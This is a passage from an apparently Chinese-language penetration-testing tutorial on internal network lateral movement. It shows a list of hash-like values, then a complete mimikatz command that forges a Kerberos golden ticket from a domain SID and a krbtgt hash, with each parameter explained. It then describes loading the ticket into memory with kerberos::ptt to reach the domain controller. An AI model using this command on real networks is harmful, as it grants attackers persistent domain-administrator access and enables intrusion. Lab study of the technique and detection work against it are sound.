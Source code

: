 ```sh
    20  2230919d6c19fdc4794a4d4cbf08cbcc
    21  f5e434234d81d0ba2362f17a8b4a61a0
    22  f5e434234d81d0ba2362f17a8b4a61a0
    23  4cf7197a9331618814144057e85b32b6
    24  ada6252d89f49e2cc822fb2545c8a4ac
    25  ada6252d89f49e2cc822fb2545c8a4ac
    26  55c19bbc0da0e9ae00a609c755da8ef5
    27  9df3396f69d865ef7b7fabdd30e5c225
    28  b8685ccf3967652956f90dd8c912dd9f
    29  534307dab20bfd1901a972ed1196c351

```

利用 mimikatz 生成金票生成.kirbi 文件并保存：

```
mimikatz.exe "kerberos::golden /admin:new_user_gold /domain:ghost.com /sid:S-1-5-21-1238213221-2393825874-2881136966-502 /krbtgt:a5269d41b184a97adc9b991f2ee21f12 /ticket:ticket.kirbi" exit

/admin：伪造的用户名
/domain：域名称
/sid：SID 值，注意是去掉最后一个-后面的值
/krbtgt：krbtgt 的 HASH 值
/ticket：生成的票据名称 
```

![image-20220318200338986](内网渗透&横向移动/image-20220318200338986.png)

登录域内普通用户，通过 mimikatz 中的 kerberos::ptt 功能将ticket.kirbi 导入内存中。

导入票据之前访问域控:

![image-20220318200449833](内网渗透&横向移动/image-20220318200449833.png)
